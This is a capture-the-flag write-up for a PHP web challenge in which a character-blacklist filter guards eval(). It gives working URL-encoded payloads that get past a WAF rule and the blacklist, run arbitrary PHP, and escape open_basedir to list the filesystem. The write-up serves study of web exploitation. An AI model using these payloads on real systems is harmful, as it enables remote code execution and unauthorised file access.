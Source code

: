 W3F
---

challenge link: http://web2.q21.ctfsecurinets.com:8081/


waf-config file


![image](https://user-images.githubusercontent.com/61080375/112029098-e2038400-8b5e-11eb-97dd-fd1bfacec876.png)

* we can by pass that ``!@within 1`` by putting space("%20" or "+") in fron of the ``cmd`` parameter 


http://web2.q21.ctfsecurinets.com:8081/?+cmd=123


source code:

```php
<?php

error_reporting(0);
function waf($str){
     for($i=0;$i<=strlen($str)-1;$i++){
        if ((ord($str[$i])<32) or (ord($str[$i])>126)){
            header("HTTP/1.1 403 Forbidden" );
                        exit;
        }
     }
     $blacklist = ['[A-Zb-df-km-uw-z]',' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^','~'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        header("HTTP/1.1 403 Forbidden" );
                        exit;
                        //die('You are forbidden!');
                }
        }
}
if(!isset($_GET['cmd'])){
    show_source(__FILE__);
}else{
        $str = $_GET['cmd'];
       
        waf($str);
        eval('echo '.$str.';');
}
?>

```

**char allowed**:``a e v l 1 2 3 4 5 6 7 8 9 0 @ ! # % ^ & * | ( ) _``

* we can get more charcters by combination of these charcters

![image](https://user-images.githubusercontent.com/61080375/112035180-4f1a1800-8b65-11eb-81b1-bed2baf24019.png)



```
(l|v)           =>  ~
(v|e)           =>   w
((2).(2){0}|a)  =>   s
((2).(2)|(9).(9))  =>  ;;

```
```
(((((4)._%26e_).((((9999**999999).a)%7B2%7D)%7C((0%2F0).a)%7B1%7D).((_)%26e).(((0).a%7C(e%26l))%26((_))).(((((2).a)%7Ca)%7C((8).aa))%26((_).aa)).((((1).(2))%7Cl.(9))%26(_))))).((9).a%26(a%7Cl)).((2).(2)%7C(9).(9))  => $_GET[aa]);;  

```

* we can pass ``eval`` also ,so we can exicute php code

* we can try ``eval(phpinfo());``

```css
http://web2.q21.ctfsecurinets.com:8081/?%20cmd=eval((((((1/0).(1)){0})%26(((1/0).(1)){2})|(0).(0){0})).(((((1/0).(1)){0})%26(((1/0).(1)){2})|((0).(0){0})%26(((1.5).(0)){1})|(8).(8){0}%26((1/0).(0)){0})).(((((1/0).(1)){0})%26(((1/0).(1)){2})|(0).(0){0})).(((((1/0).(1)){0})%26(((1/0).(1)){2})|((0).(0){0})%26(((1.5).(0)){1})|(8).(8){0}%26((1/0).(0)){0}|(1).(1){0}%26((0/0).(0)){1})).(((((1/0).(1)){0})%26(((1/0).(1)){2})|((0).(0){0})%26(((1.5).(0)){1})|(8).(8){0}%26((1/0).(0)){0}|(4).(4){0}%26((1/0).(0)){2}|(2).(2){0}%26((1/0).(0)){1})).(((((1/0).(1)){0})%26(((1/0).(1)){2})|((0).(0){0})%26(((1.5).(0)){1})|(4).(4){0}%26((1/0).(0)){2}|(2).(2){0}%26((1/0).(0)){1})).(((((1/0).(1)){0})%26(((1/0).(1)){2})|((0).(0){0})%26(((1.5).(0)){1})|(8).(8){0}%26((1/0).(0)){0}|(4).(4){0}%26((1/0).(0)){2}|(2).(2){0}%26((1/0).(0)){1}|(1).(1){0}%26((0/0).(0)){1})).((((0).(0){0})%26(((1.5).(0)){1})|(8).(8){0}%26((1/0).(0)){0})).((((0).(0){0})%26(((1.5).(0)){1})|(8).(8){0}%26((1/0).(0)){0}|(1).(1){0}%26((0/0).(0)){1})).(((0).(0){0}|(8).(8){0}%26((1/0).(0)){0}|(2).(2){0}%26((1/0).(0)){1}|(1).(1){0}%26((0/0).(0)){1})))
```

![image](https://user-images.githubusercontent.com/61080375/112036748-05cac800-8b67-11eb-8e5d-6336baf0a8ad.png)

![image](https://user-images.githubusercontent.com/61080375/112036858-1f6c0f80-8b67-11eb-9d9e-9edc062715d2.png)


* we can see alot of functions are disabled in that


* we found that ``ini_set()``  is not disabled
* there is a ``/images`` dir 
* the flag location is ``/``
* so we can bypass open_basedir and use finfo to read contents

payload:**ini_set('display_errors', 1);ini_set('display_startup_errors', 1);error_reporting(E_ALL);chdir('images');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir', '/');new Finfo(0,"/");**



```css
http://web2.q21.ctfsecurinets.com:8081/?+cmd=eval(((ev).(al).((8).a%26(l)).((((4)._%26e_).((((9999**999999).a){2})|((0%2F0).a){1}).((_)%26e).(((0).a|(e%26l))%26((_))).(((((2).a)|a)|((8).aa))%26((_).aa)).((((1).(2))|l.(9))%26(_))))).((9).a%26(a|l)).((2).(2)|(9).(9)))&aa=ini_set(%27display_errors%27,%201);ini_set(%27display_startup_errors%27,%201);error_reporting(E_ALL);chdir(%27images%27);ini_set(%27open_basedir%27,%20%27..%27);chdir(%27..%27);chdir(%27..%27);chdir(%27..%27);ini_set(%27open_basedir%27,%20%27/%27);new%20Finfo(0,%22/%22);
```



![image](https://user-images.githubusercontent.com/61080375/112038804-4f1c1700-8b69-11eb-90e0-9e368ad0b74f.png)


